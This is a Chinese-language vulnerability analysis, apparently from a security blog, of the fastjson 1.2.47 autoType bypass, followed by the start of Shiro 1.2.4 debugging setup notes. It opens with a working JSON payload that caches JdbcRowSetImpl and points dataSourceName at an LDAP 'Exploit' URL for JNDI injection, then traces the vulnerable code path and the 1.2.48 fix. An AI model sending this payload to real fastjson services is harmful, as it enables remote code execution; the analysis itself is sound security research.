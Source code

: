 ```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1099/Exploit","autoCommit":true}}}
```

首先还是`checkAutoType`：

`fastjson-1.2.47-sources.jar!/com/alibaba/fastjson/parser/ParserConfig.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025162647.png)

如果`autoType`是关闭的，可以看到并没有进行黑名单的检测。首先会尝试从一个map（缓存）中获取`@type`参数对应的class，如果没有就调用`findClass`方法。

`fastjson-1.2.47-sources.jar!/com/alibaba/fastjson/serializer/MiscCodec.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025164424.png)

之后会尝试取`val`属性的值，这里我们设置为了`com.sun.rowset.JdbcRowSetImpl`。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025164935.png)

接下来，如果`@type`的值为`Class`时，会将`strVal`传入`loadClass`方法：

`fastjson-1.2.47-sources.jar!/com/alibaba/fastjson/util/TypeUtils.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025165253.png)

如果缓存开启，会将这个类放入map中，这样我们需要使用的恶意类就绕过了过滤放入了运行的context中。

通过前面我们知道，当进行第二步解析调用时，会尝试调用`getClassFromMapping`方法，这时`com.sun.rowset.JdbcRowSetImpl`已经在里面了。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025170950.png)

##### 1.2.48

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025171555.png)

fastjson官方修漏洞向来简单粗暴，把缓存设置为默认关闭，完事。。。

### shiro

仅仅靠shiro中的依赖并没有合适的gadget，利用是需要依靠整个项目中的其他依赖，这里记录一下坑点吧。

首先在环境搭建上，由于shiro 1.2.4版本比较老，依赖jdk1.6。

mac上的jdk1.6 java官网上没有，需要到apple官网上下载[https://support.apple.com/kb/DL1572?locale=zh_CN](https://support.apple.com/kb/DL1572?locale=zh_CN)

同时推荐一个java多版本管理工具[https://github.com/jenv/jenv](https://github.com/jenv/jenv)。

其次在动态调试的时候，需要对`shiro/samples/web/pom.xml`进行一些修改：

```xml
<!--  添加 -->
<properties>
    <maven.compiler.source>1.8</maven.compiler.source>
    <maven.compiler.target>1.8</maven.compiler.target>
</properties>

<!--  修改 -->
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>jstl</artifactId>
    <!--  这里需要将jstl设置为1.2，否则会报错 -->
    <version>1.2</version> 
    <scope>runtime</scope>
</dependency>
```
